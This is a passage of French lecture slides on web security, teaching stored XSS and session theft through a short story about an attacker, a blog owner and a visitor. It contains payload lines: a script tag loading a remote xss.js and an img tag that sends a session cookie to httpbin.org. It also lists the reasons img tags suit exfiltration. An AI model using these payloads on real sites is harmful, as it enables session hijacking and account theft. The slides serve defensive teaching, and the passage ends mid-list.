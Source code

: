 </section>
<section id="stored-xss-2">

## Exemple : vol de session

2. <span class="srv">Servane</span> a une *faille XSS permanente* dans
   son blog : les commentaires peuvent être injectés avec des balises
   `<script>`.

3. <span class="att">Athanase</span> injecte le code suivant dans
   `http://blog.servane.org/`{:.srv}
   
   ~~~
   <script src="http://cdn.rawgit.com/defeo/aws-security/master/xss.js"></script>
   ~~~
   {:.compact}

4. <span class="cli">Clélie</span> visite le blog de Servane. Le
   script de Athanase s'exécute, et envoie les cookies de Clélie (y
   compris **son identifiant de session**) à
   `http://httpbin.org`{:.att}.
{: start="2"}


<div class="mock-browser cli content" data-callback="storedXSS2" data-height="200px"
	data-src="http://blog.servane.org/">
</div>
<script>
sessionStorage[window.location.host + '.sessid'] = Math.random().toString().substr(2);
var storedXSS2Count = 0;
function storedXSS2(addr) {
	return storedXSS2Count++ ? "../assets/permanent-xss.html" : null;
}
</script>

</section>
<section>

## Pourquoi `<img>` ?

La balise `<img>` est utilisée souvent pour envoyer des données de la
victime à l'attaquant :

~~~
<img src='http://httpbin.org/get?ck={"sessid":"a10340f0e"}' />
~~~
{:.compact}

- Presque tous les browsers savent la gérer,
- Connexion silencieuse (pas d'interaction utilisateur, pas de confirmation),
- Rarement filtrée,
- Idéale pour une transmission **de la victime à l'attaquant**.

Autres techniques pour capter les données :
